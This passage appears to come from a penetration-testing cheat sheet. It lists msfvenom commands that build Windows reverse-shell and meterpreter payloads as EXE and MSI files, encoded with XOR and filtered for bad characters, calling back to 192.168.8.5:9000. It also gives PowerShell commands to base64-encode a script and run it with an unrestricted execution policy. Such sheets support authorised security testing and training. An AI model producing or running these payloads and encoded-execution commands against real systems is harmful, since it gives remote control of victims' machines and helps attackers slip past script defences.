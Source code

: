 To generate a `standalone executable`, file use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f exe -b \x00\x0a\x0d\xff -o payload.exe

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f exe -b \x00\x0a\x0d\xff -o payload.exe

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f exe -o payload.exe

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f exe -o payload.exe
```

To generate an `MSI file`, use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f msi -b \x00\x0a\x0d\xff -o payload.msi

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f msi -b \x00\x0a\x0d\xff -o payload.msi
```

Bytecode might not work on the first try due to some other bad characters. Trial and error is the key.

So far there is no easy way to generate a DLL nor MSI file with a stageless meterpreter shell due to the size issues.

### PowerShell Encoded Command

To generate a PowerShell encoded command from a PowerShell script, run the following PowerShell command:

```pwsh
[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes([IO.File]::ReadAllText($script)))
```

To run the PowerShell encoded command, run the following command from either PowerShell or Command Prompt:

```pwsh
PowerShell -ExecutionPolicy Unrestricted -NoProfile -EncodedCommand $command
```

To decode a PowerShell encoded command, run the following PowerShell command:

```pwsh
[Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($command))
```

Find out more about PowerShell reverse and bind TCP shells from my other [project](https://github.com/ivan-sincek/powershell-reverse-tcp).

## 5. Password Cracking
